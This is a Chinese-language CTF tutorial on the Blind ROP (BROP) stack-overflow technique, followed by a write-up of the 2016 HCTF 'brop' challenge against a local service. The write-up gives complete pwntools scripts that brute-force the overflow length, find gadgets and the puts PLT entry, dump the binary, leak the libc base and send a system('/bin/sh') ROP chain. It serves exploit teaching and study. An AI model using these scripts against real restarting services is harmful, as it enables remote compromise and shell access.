# CTF-PWN-栈溢出-中级ROP-[BROP-1]


## BROP(Blind ROP) 
这是既没有源码也没有可执行文件、只提供了一个服务端口来攻击的情况

> BROP（Blind ROP）由斯坦福大学的 Andrea Bittau 于 2014 年提出，相关研究成果发表在 Oakland 2014 上，论文题目为 Hacking Blind。下面是作者的论文和 PPT，以及作者的介绍
> 
- [论文](http://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [PPT 演示——非常值得一看](http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

## 攻击条件

1. 存在栈溢出漏洞，并且知道如何触发
2. 服务端进程崩溃后会重启，且重启后的进程地址与之前相同（这意味着即使程序有 ASLR 保护，也只在程序最初启动时有效）。目前 nginx、MySQL、Apache、OpenSSH 等服务器应用都符合这一特性）



## 攻击思路
如今大多数应用都开启了 ASLR、NX 和 Canary 保护。我们要做的就是想办法绕过这些防御


 1. 爆破确定栈溢出长度
 2. 爆破 canary。由上面的条件 2 可知，每次崩溃重启后 canary 都不变，所以可以逐字节爆破。每个字节 8 位，有 256 种可能，逐一尝试，如果没有报错就说明该字节正确，接着爆破下一个字节。所以 32 位需要 1024 次尝试，64 位需要 2048 次尝试
3. 爆破返回地址，找到一个能返回 main 函数的地址
4.  先找 gadget，可以利用 libc_cs_init 中的 gadget 来控制待调用函数的参数
5. 先用得到的 gadget 构造参数，再爆破地址作为返回地址。如果某个地址处的指令恰好是输出函数，那么配合之前构造的参数就会输出相应内容。如果出现了这样的内容，就说明找到了 write、puts 或 printf 之类的输出函数
6. 然后把所有地址的内容都输出出来，写入自己创建的文件中，再对该文件反汇编，就能看到程序的汇编代码。找到对应输出函数的 PLT 表项，定位 `jmp <输出函数在 GOT 表中的地址>` 指令，记下输出函数的 GOT 表地址
7. 然后以输出函数的 GOT 表地址为参数、以输出函数本身为返回地址进行输出，就得到了输出函数的地址
8. 利用输出函数的地址确定对应的 glibc 版本，计算基址，进而得到 system 和 /bin/sh 的地址
9. 再次发送输入，这次把参数构造为 /bin/sh 的地址、返回地址构造为 system 的地址，从而拿到 shell

## 三类 gadget

> PIE（Position-Independent Executables）：位置无关可执行文件，类似于 Windows 上的 ASLR（地址空间布局随机化）机制。开启 PIE 意味着程序开启了地址随机化，即程序每次运行时地址都会变化。它主要解决二进制文件自身地址已知的问题，可以防御 return2elf 等已知地址读写问题。

> 默认情况下，未开启 PIE 时，x86 的加载基址为 0x8048000，而 x64 的加载基址为 0x400000。

> 开启 PIE 后，ELF 内部的相对偏移保持不变，但每次加载的基址都会变化。

probe 是用于爆破枚举的地址，即被探测的地址
stop 是不会让程序崩溃的地址
trap 是会让程序崩溃的地址

从栈上的返回地址开始布置不同的 stop 和 trap，就可以识别出所执行的指令，因为执行到 stop 程序不会崩溃，而执行到 trap 程序会崩溃，由此可以判断该指令序列的 ret 位于何处

 - probe, stop, traps, traps……
   不断改变 probe 进行尝试。不崩溃的就是一个不改变栈顶、最终执行 ret 指令的指令序列
   ret
   xor eax，eax；ret
   push eax；pop ebx；ret
- probe, trap, stop, trap, trap……
   通过不断改变 probe 的值，可以找到这样的指令流：从栈顶弹出一个元素，然后在不改变栈顶的情况下再执行一次 ret
   pop rax；ret
   pop rdi；push rax；pop rsi；ret
 - probe, trap, trap, trap, trap, trap, trap, stop, trap, trap……
  此时可以找到一条含 ret 的指令，在 ret 之前栈顶位置减少了 6 个单位
  pop rax；pop rdi；pop rsi；pop rdx；pop rbx；pop r14；ret 


**不过要注意，如果 probe 是 _start 函数的起始地址，那么永远都不会崩溃**

## 构造函数参数
如果此时需要使用 write，就需要如下 gadget

参数可以通过 libc_csu_init 来构造
libc_csu_init 中有一个一次弹出 6 个寄存器的 gadget，这在程序中并不常见。所以如果找到了这样的 gadget，那么它很可能就是我们需要的 gadget。然后可以利用错位（偏移）来构造想要的 gadget

寻找 gadget 时，针对不同的指令需要不同的 probe、stop、trap 排列 



## 利用 PLT
当 probe 落在 PLT 中某个函数的范围内时，就会执行该函数

### 构造 rdx 参数的 gadget
这里需要的 gadget 必须有 pop rdx，并且还要以 ret 或其他能间接把值传给 rdx 的指令结尾——但这样的 gadget 几乎不存在
不过可以利用调用 strcmp 函数后 rdx 中存放字符串长度值这一特性来修改 rdx **（存疑）**

> 我们知道，strcmp(para1, para2) 只有在 para1 和 para2 都是有效地址时才能正确执行。我们已经知道两个可用的 gadget：csu_gadget1 + 7 和 csu_gadget1 + 9。因此，可以分别把这两个地址作为 para1 和 para2，然后仍然用 probe 判断是否执行成功。如果执行成功，就找到了 strcmp()。当然也可能找到 strncmp() 和 strcasecmp()，但它们与 strcmp() 的效果是一样的。



### 寻找输出函数的 PLT
同样构造参数，不过这次可以构造 rdi、rsi 和 rdx。只需尝试 probe：如果输出了参数对应的内容，就找到了输出函数的 PLT 位置
### dump 二进制文件内容
然后构造参数，用输出函数把二进制文件所有地址的内容都输出出来。此时就相当于不再是"盲"的了——你拿到了源文件。现在知道了 PLT 表中的所有函数，就可以调用 read 等不同的函数
### 利用 PLT 表项跳转到对应 GOT 地址这一特点
拿到二进制文件后，找到输出函数的 PLT 表项，定位其中引用输出函数 GOT 表项地址的跳转指令，然后再次输出，参数为输出函数在 GOT 表中的地址。这样就得到了输出函数的真实地址，进而得到 libc 基址，并计算出 /bin/sh 和 system 的地址。如果做不到，也可以用 read 或 write 函数以自己构造的参数写入可写内存（这样地址就是已知的），然后调用 syscall 或 system——只不过 syscall 需要额外构造参数



# CTF-PWN-栈溢出-中级ROP-[BROP-2]


##  2016 HCTF 出题人失踪了

```bash
socat tcp-l:9999,reuseaddr,fork exec:./brop
tcp-l:9999 建立一个tcp监听端口，端口为9999
reuseaddr：它允许在主进程终止后立即重启，即使一些子套接字没有完全关闭
fork：转发到的服务器 IP 和端口 这里是转发给brop处理
```

> puts() 函数用于将一个字符串输出到标准输出设备（屏幕）并换行。
具体来说，它把字符串输出到屏幕上，并将 '\0' 转换为回车换行。调用方式为：puts(str)，其中 str 是字符数组名或字符串指针。实际上，数组名就是一个指针。

### 爆破栈溢出长度
不断尝试不同的长度。可以发现没有 canary，因为如果溢出到了 canary，报错信息中会提到 canary。最终得到栈溢出长度为 72

```python
def get_buffer_overflow_length(): # 得到栈溢出长度
    i=1
    while 1:
        try:
            f=remote("127.0.0.1",9999)
            f.sendlineafter(b"WelCome my friend,Do you know password?\n",b"g"*i)
            s=f.recvline()
            f.close()
            i=i+1
        except EOFError:
            f.close()
            print("因为如果有canary保护的话会有相应报错内容而这里没有，所以出现溢出到返回地址")
            print("到出现错误的时候即从输入到返回地址的长度为",i-1)
            return i-1
```


### 寻找 stop_gadget
也就是尝试不同的 probe，找到一个能返回到主函数的地址

```python
def get_stop_addr(length):  # 得到能返回主函数的地址
    addr=0x400000
    while 1:
        try:
            f=remote("127.0.0.1",9999)
            payload=b"g"*length+p64(addr)
            f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
            s=f.recvline()
            print(s)
            if s.startswith(b"WelCome"):
                print("第一个找到的能返回主函数开始的地址",hex(addr))
                return addr ## 找到一个能返回主函数开始的地址
            addr=addr+1
            f.close()
        except Exception:
            addr=addr+1
            f.close()
```


### 寻找 rop_gadget
接下来需要找到能控制寄存器的 gadget
libc_csu_init 的末尾有一个连续 pop 六次的 gadget，这种 gadget 比较少见，并且可以通过错位得到 pop rdi 操作
所以可以先找到连续 pop 6 次的 gadget 的地址，再通过偏移得到 pop rdi; ret 和 pop rsi; ret 的地址

那么对应的 gadget 布局为
- probe, trap, trap, trap, trap, trap, trap, stop

所以如果此时某个 probe 没有崩溃，它应该就是 libc_csu_init 中连续 pop 6 次的 gadget 的地址
但也不一定——有小概率是其他情况，比如连续 pop 七次，而 ret 时栈顶恰好有一个合适的地址。所以要再检查一次
```python
def get_brop_gadget(stop_addr,addr,length): # 找到能连续pop6次并ret的指令的地址
        try:
            f=remote("127.0.0.1",9999)
            payload=b"g"*length+p64(addr)+p64(0)*6+p64(stop_addr)
            f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
            s=f.recvline()
            f.close()
            if s.startswith(b"WelCome"):
                print("找到了一个可能合适的连续pop六次+ret的gadget：",hex(addr))
                return True
        except Exception:
            f.close()


def check_brop_gadget(stop_addr，length, addr): #检查防止其是pop7次然后ret偶然能返回到正确地址的可能性
    try:
        f=remote("127.0.0.1",9999)
        payload=b'g'*length+p64(addr)+p64(0)*7+p64(stop_addr)
        f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
        s=f.recvline()
        f.close()
        return False 
    except Exception:
        f.close()
        print("大概率是正确的了")
        return True

def ensure_brop_gadget(stop_addr,length): #综合get和check
    addr=0x400000
    while 1:
        if get_brop_gadget(stop_addr,addr,length):
            if check_brop_gadget(stop_addr,length,addr):
                print("存在一个brop_gadget,地址为：",hex(addr))
                return addr
        addr=addr+1
        
```

### 寻找输出函数
不同输出函数的参数个数不同。由于 puts 只有一个参数 rdi，所以先尝试 puts 函数
另外，在没有开启 PIE 的情况下，0x400000 处是 ELF 文件的文件头，其内容为字符 \x7ELF

所以可以把 0x400000 作为 rdi 的值，然后不断尝试 probe，直到输出 \x7ELF 字符，就说明找到了输出函数 puts

```python
def find_put_plt(stop_addr,pop_rdi_ret,buffer_length): #找到find的plt表的位置
    addr=0x400500
    while 1:
        f=remote("127.0.0.1",9999)
        payload=b"g"*buffer_length+p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_addr)
        f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
        try:
            s=f.recv()
            if s.startswith(b"\x7fELF"):
                print("找到了输出函数的plt位置",hex(addr))
                return addr
            else :
                addr=addr+1
            f.close()
        except Exception:
            f.close()
            addr=addr+1
```


### dump 二进制文件
现在把参数改为程序中的地址，调用输出函数把程序的全部内容输出出来，写入自己创建的文件中。最后对该文件进行反汇编，找到输出函数 PLT 地址对应的 PLT 表项，再找到跳转到输出函数 GOT 地址的指令，从而找到输出函数在 GOT 表中的地址
这里先 dump 0x400000 到 0x401000，看能否得到 PLT 表，果然得到了左上角所示的 binary_file

放入 IDA 中

找到 PLT 表，再找到输出函数的 GOT 表项


```python
def leak_file(stop_addr,pop_rdi_ret,buffer_length,put_plt_addr): # 泄露二进制文件然后能找到plt中puts的内容有其got地址的相关信息
   
    addr=0x400000
    while addr<0x401000:
        f=remote("127.0.0.1",9999)
        payload=b'g'*buffer_length+p64(pop_rdi_ret)+p64(addr)+p64(put_plt_addr)+p64(stop_addr)
        f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
        s=f.recvuntil(b"\nWelCome")
        s=s[:s.index(b"\nWelCome")]
        s=s+b"\x00"
        with  open("binary_file","ab+") as bf:
            bf.write(s)
        addr=addr+len(s)
        f.close()
```

### 输出函数的真实地址与最终 getshell 的 ROP 链
把输出函数 puts 的 GOT 地址作为参数调用 puts，从而得到 puts 的真实地址，进而得到 libc 基址。注意：此时不要关闭传输通道，否则进程会重启，puts 的真实地址会改变，libc 基址也会随之改变。所以得到 puts 的真实地址后要跳回主函数（返回地址为 stop_addr），再计算 libc 基址以及 system 和 /bin/sh 的地址，然后再次发送构造好的 ROP 链来 getshell

```python

#buffer_length=get_buffer_overflow_length()
buffer_length=72

#stop_addr=get_stop_addr(buffer_length)
stop_addr=0x4005c0

#brop_addr=get_brop_gadget(stop_addr,buffer_length)
#ensure_brop_gadget(stop_addr,buffer_length)
brop_addr=0x4007ba
pop_rdi_ret=brop_addr+0x9

#put_plt_addr=find_put_plt(stop_addr,pop_rdi_ret,buffer_length)
put_plt_addr=0x400555

#leak_file(stop_addr,pop_rdi_ret,buffer_length,put_plt_addr)
put_got_addr=0x601018 # 查看binary_file找到got表的地址 
# 以上都是通过函数得出，下面是对得出的信息进行利用


# 得到puts的地址
f=remote("127.0.0.1",9999)#f=process("./brop")
#gdb.attach(f,"b main")
payload=b"g"*buffer_length+p64(pop_rdi_ret)+p64(put_got_addr)+p64(put_plt_addr)+p64(stop_addr)
f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
s=f.recvline()[:-1]

#计算相关地址
put_addr=u64(s.ljust(8,b"\x00"))
print(hex(put_addr))
libc=ELF("./libc-2.23.so")
libc_base=put_addr-libc.sym["puts"]
print(hex(libc_base))
system_addr = libc_base + libc.sym['system']
binsh_addr=libc_base+libc.search(b"/bin/sh").__next__()
print(hex(system_addr))
print(hex(binsh_addr))

# 构造ROP链执行system函数
payload=b"g"*buffer_length+p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr)+p64(stop_addr)
f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
f.interactive()

```
攻击成功
